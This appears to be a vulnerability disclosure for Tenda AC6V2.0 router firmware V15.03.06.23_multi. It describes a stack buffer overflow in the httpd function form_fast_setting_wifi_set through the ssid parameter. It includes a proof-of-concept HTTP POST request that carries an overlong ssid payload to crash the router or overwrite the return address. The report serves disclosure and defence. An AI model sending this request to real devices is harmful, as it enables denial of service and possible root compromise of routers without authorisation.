


### Overview

- Vendor : Tenda
- Product : AC6V2.0
- Version : Tenda AC6V2.0 V15.03.06.23_multi
- Firmware download address : https://static.tenda.com.cn/tdcweb/download/uploadfile/AC6/AC6V2.0_V15.03.06.23_multi.zip

### Vulnerability details

A vulnerability was determined in Tenda AC6V2.0 V15.03.06.23_multi. Specifically, the function form_fast_setting_wifi_set within the httpd binary is affected. This function improperly handles user-supplied input passed through the ssid argument, causing a stack-based buffer overflow. By supplying an overly long string to the ssid parameter via a crafted HTTP request, an attacker can overwrite the return address on the stack. This vulnerability can be exploited remotely, leading to denial of service or, potentially, arbitrary code execution with root privileges.



### PoC

```
POST /goform/fast_setting_wifi_set HTTP/1.1
Host: 192.168.0.3
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.0.0 Safari/537.36
Accept: text/plain, */*; q=0.01
X-Requested-With: XMLHttpRequest
Referer: http://192.168.0.3/main.html
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Cookie: password=vammji
Connection: close
Content-Length: 3925

ssid=AxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxelioc
```

